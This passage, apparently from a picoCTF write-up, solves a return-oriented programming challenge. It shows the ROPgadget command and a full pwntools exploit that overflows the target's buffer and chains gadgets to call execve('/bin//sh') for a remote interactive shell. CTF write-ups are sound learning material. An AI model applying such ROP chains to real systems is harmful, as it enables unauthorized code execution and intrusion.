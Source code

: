 The challenge clearly indicate we are dealing with ROP. I'm not really familiar with it. However, a tool called **ROPgadget** can automate the ROP chain for us with the command below:
```
ROPgadget --binary vuln --ropchain
```

With the ROP chain available, the rest is just simply assembling them:
```py
#!/usr/bin/env python2
# execve generated by ROPgadget
from pwn import *
from struct import pack
context.log_level = 'error'

sh = remote("saturn.picoctf.net", 62560)

# Padding goes here
p = 'A'*28

p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80

sh.sendline(p)
sh.interactive()
```
